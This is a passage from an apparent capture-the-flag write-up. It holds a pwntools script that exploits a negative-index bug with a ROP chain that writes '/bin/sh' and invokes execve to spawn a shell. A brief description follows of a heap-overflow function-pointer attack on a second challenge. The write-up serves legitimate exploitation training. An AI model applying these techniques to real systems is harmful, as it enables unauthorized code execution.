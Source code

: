 ```py
gdbscript = '''
source /media/nasm/7044d811-e1cd-4997-97d5-c08072ce9497/Downloads/pwndbg/gdbinit.py
set follow-fork-mode parent
b* main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()
io.sendlineafter(b"Index: ", b"-2")

# 0x0000000000406c32 : mov qword ptr [rax], rsi ; ret
# 0x0000000000401001 : pop rax ; ret
# 0x00000000004019a3 : pop rsi ; ret
# 0x00000000004013e9 : syscall
# 0x0000000000403d23 : pop rdx ; ret
# 0x0000000000401b0d : pop rdi ; ret

POP_RDI = 0x0000000000401b0d
POP_RDX = 0x0000000000403d23
SYSCALL = 0x00000000004013e9
POP_RAX = 0x0000000000401001
POP_RSI = 0x00000000004019a3

MOV_RSI_PTR_RAX = 0x0000000000406c32

PT_LOAD_W = 0x00000000040c240

pld = pwn.p64(0) + pwn.p64(POP_RSI) + b"/bin/sh\x00"
pld += pwn.p64(POP_RAX) + pwn.p64(PT_LOAD_W)
pld += pwn.p64(MOV_RSI_PTR_RAX)
pld += pwn.p64(POP_RAX) + pwn.p64(0x3b)
pld += pwn.p64(POP_RDI) + pwn.p64(PT_LOAD_W)
pld += pwn.p64(POP_RSI) + pwn.p64(0)
pld += pwn.p64(POP_RDX) + pwn.p64(0x0)
pld += pwn.p64(SYSCALL)

io.sendlineafter(b"Data: ", pld)

io.interactive()
```

# abbr

abbr is very basic heap overflow, we just have to overwrite a function pointer to a stack pivot gadget with the help of a user controlled register. Then, we can drop a shell with a similar ROP as for the `justpwnit` challenge (the binary is also statically linked without the system function).
